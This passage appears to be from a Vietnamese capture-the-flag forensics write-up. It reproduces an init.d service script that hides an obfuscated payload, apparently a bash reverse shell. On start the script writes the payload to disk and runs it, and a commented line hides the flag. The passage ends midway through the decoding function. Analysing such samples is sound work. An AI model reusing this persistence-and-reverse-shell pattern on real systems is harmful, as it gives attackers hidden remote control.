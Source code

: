 ```
ENCHANTED_STRING="pfXya/kxqlGbKSPOdikkkUFneWGvk/ATUHObOIgGWaBKYZOsEXWVghZSygL nAIBf-UlMDeiMasOY hwnXE>pbkdm&CJjQK ZULrp/IwnjWdJkTMEePmysevNjfCB/JlMRvtNFdlKciUeGmpMJJxq/AEacj1ApwVV0vQaJr.qQhHU0hmDRa.ihgtX0tsiBd.kawOW6Ekxfl/XwTlz1bRFlJ2XiOHY3ujqyy4QrLBa sQwaF0EQcvD>LpYku&Fyakx1shVgW"

#sJddrLOwQzD3SwoKPavkMSxkXsAXn{CvzIEiaRxQCnkMjFZiSIjBAtkUwvbdPMZbW_udhQT2inbJn_VLZtRbJPTCm0gsJDF0yUiZi7paJvr5giIKI}DScGa

# Decode the ENCHANTED path and script
MYSTICPORTAL_PATH=$(decode_payload "$ENCHANTED_PATH")
MYSTICPORTAL_SCRIPT=$(decode_payload "$ENCHANTED_STRING")

start() {
    echo "Starting mysticportal service..."
    if [ ! -f "$MYSTICPORTAL_PATH" ]; then
        echo "MYSTICPORTAL script not found, recreating..."
        echo "$MYSTICPORTAL_SCRIPT" > "$MYSTICPORTAL_PATH"
        chmod +x "$MYSTICPORTAL_PATH"
    fi
    # Start the MYSTICPORTAL script or service
    "$MYSTICPORTAL_PATH"
}

stop() {
    echo "Stopping MYSTICPORTAL service..."
    # Code to stop the MYSTICPORTAL service
}

case "$1" in
    start)
        start
        ;;
    stop)
        stop
        ;;
    *)
        echo "Usage: /etc/init.d/MYSTICPORTAL {start|stop}"
        exit 1
        ;;
esac

exit 0

```
- Mình hỏi GPT thì cũng hiểu được kha khá là nó sẽ decrypt cái đoạn `ENCHANTED STRINGS` kia nma bên dưới có 1 đoạn mã comment lại có format giống flag nên mình có thay đổi 1 chút như Sau:
```
#!/bin/bash
### BEGIN INIT INFO
# Provides:          mysticportal
# Required-Start:    $network
# Required-Stop:     
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Starts mysticportal
### END INIT INFO

# Function to intreprt messege from the other side
decode_payload() {
    local ENCHANTED=$1
    local i=5
    local payload=""
    while [ $i -lt ${#ENCHANTED} ]; do
        payload="${payload}${ENCHANTED:$i:1}"
```